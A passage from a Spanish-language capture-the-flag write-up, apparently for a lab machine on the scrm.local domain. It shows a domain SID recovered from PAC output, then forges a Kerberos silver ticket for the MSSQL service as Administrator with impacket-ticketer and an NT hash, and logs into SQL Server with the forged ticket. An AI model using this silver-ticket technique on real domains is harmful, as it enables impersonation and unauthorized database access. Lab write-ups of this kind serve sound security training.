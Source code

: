 ```bash
ProfilePath:                     '' 
HomeDirectory:                   '' 
HomeDirectoryDrive:              '' 
LogonCount:                      258 
BadPasswordCount:                0 
UserId:                          500 
PrimaryGroupId:                  513 
GroupCount:                      5
...
...
ResourceGroupIds:               
    [
         
        RelativeId:                      572 
        Attributes:                      536870919 ,
    ] 
Domain SID: S-1-5-21-2743207045-1827831105-2542523200

 0000   10 00 00 00 CC C9 99 BE  FA D0 7B 05 CB 38 DC 63   ..........{..8.c
```
Ahí esta el **dominio SID** y con esto, ya tenemos los datos que necesitamos.

Apliquemos el ataque indicando todos los datos que pide:
```bash
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local:1433 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -dc-ip dc1.scrm.local -nthash b999a16500b87d17ec7f2e2a68778f05 -domain scrm.local Administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

Exportamos el **archivo ccache** a la **variable de entorno KRB5CCNAME** y nos logueamos al **servicio MSSQL**:
```bash
export KRB5CCNAME=Administrator.ccache
                                                                                                                                                                                                                 
impacket-mssqlclient dc1.scrm.local -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SCRM\administrator  dbo@master)> 
```
